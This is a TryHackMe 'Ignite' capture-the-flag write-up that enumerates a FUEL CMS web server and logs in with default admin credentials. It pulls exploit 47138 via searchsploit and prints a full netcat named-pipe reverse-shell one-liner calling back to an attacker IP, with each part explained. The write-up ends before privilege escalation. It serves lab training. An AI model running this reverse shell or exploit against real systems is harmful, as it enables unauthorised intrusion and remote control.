 ```yaml
---
title: TryHackMe - Ignite
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc,http, gobuster, searchsploit ]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Ignite/0.png
    alt: Ignite
---
```


# Ignite

A new start-up has a few issues with their web server.  

# Tasks
Read User.txt and Root.txt  

# nmap
## ip `10.10.48.179`

## Command 
```sh
nmap -sV -sC -A -v 10.10.48.179
```
## Results

```sh
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  


## gobuster

```sh
gobuster dir -u http://10.10.48.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](/assets/img/try%20hack%20me%20/Easy/Ignite/1.png)

## The site
Visiting the site i get a welcome page.  
![](/assets/img/try%20hack%20me%20/Easy/Ignite/2.png)

In the welcome page we are redirected to another directory 
	`http://$ip/fuel`  
![](/assets/img/try%20hack%20me%20/Easy/Ignite/3.png)  
![](/assets/img/try%20hack%20me%20/Easy/Ignite/4.png)

login details:  
user name `admin`  
password  `admin`

![](/assets/img/try%20hack%20me%20/Easy/Ignite/5.png)

Now we look for a vector point where we can enumerate and get something to work with.  


Navigating to `assets/upload`  
![](/assets/img/try%20hack%20me%20/Easy/Ignite/6.png)

Here we can connect a reverse shell if possible but its worth a try.  
So i got a reverse shell.php.

Then uploaded it.  
But kept on receiving some errors so resulted to finding other means.  

# searchsploit

## Command 
```sh
	 searchsploit fuel
```
![](/assets/img/try%20hack%20me%20/Easy/Ignite/7.png)

Downloaded the exploit to my machine.  
```sh
	searchsploit -m 47138.py
```
![](/assets/img/try%20hack%20me%20/Easy/Ignite/8.png)

Tried modifying the exploit but no luck.  
Not sure how to go about this ???  


But after some research i got the shell.  
This is after removing some default lines on the code.  

```sh
nc -nlvp 1337
```
![](/assets/img/try%20hack%20me%20/Easy/Ignite/9.png)


- Now that we have our local listener set up we can use netcat on the remote target to push a shell back to us.  
- To do this we need to chain a few different commands together, it can be a little confusing but we are going to break it up and explain each component.  

```sh
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f
```
- `rm /tmp/f ;` removes any pre-existing directory called `/tmp/f`, the semicolon ends the command similar to hitting the ENTER key.  
- `mkfifo /tmp/f ;` creates a named pipe at the location `/tmp/f`, semicolon ends the command  
- `cat /tmp/f |` displays the contents of `/tmp/f` and pipes the results into the next command  
- `/bin/sh -i 2>&1 | ` invokes the default shell binary, the ‘-i’ tells it to use interactive mode, redirect stderr2 to the same destination as stdout1, and pipe that to the next command.  
- `nc 10.8.6.159 1337 >/tmp/f ` tell netcat to connect to the remote IP and PORT and redirect that output to the named pipe  
Here is a link to a site that may help with understanding the commands [explain shell](https://explainshell.com/explain?cmd=rm+%2Ftmp%2Ff+%3B+mkfifo+%2Ftmp%2Ff+%3B+cat+%2Ftmp%2Ff+%7C+%2Fbin%2Fsh+-i+2%3E%261+%7C+nc+10.8.6.159+1337+%3E%2Ftmp%2Ff)



